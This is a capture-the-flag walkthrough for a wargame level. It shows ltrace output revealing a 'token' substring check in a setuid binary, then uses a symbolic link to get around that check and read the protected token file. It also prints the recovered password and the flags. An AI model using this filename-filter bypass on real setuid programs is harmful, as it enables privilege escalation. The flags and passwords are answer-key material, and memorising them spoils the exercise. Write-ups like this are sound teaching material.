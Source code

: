 ## FLAG: `fiumuikeil55xe9cu4dood66h`

> ls -l
```
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

> ./level08
```
    ./level08 [file to read]
```

> ./level08 token
```
    You may not access 'token'
```

> echo 'pwd' > /tmp/test && ./level08 /tmp/test
    -> print content

> ltrace ./level08 /tmp/test
```
    __libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("/tmp/test", "token")                                                                                                                                                                     = NULL
    open("/tmp/test", 0, 014435162522)                                                                                                                                                               = 3
    read(3, "pwd\n", 1024)                                                                                                                                                                           = 4
    write(1, "pwd\n", 4pwd
    )                                                                                                                                                                             = 4
    +++ exited (status 4) +++
```
## `strstr("/tmp/test", "token")` This program must only check that there is no substring `token` in the filename

## We'll use symbolic link to bypass this
> ln -s /home/user/level08/token /tmp/08_link && ./level08 /tmp/08_link
```
    quif5eloekouj29ke0vouxean
```

> su flag08
> getflag
```
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```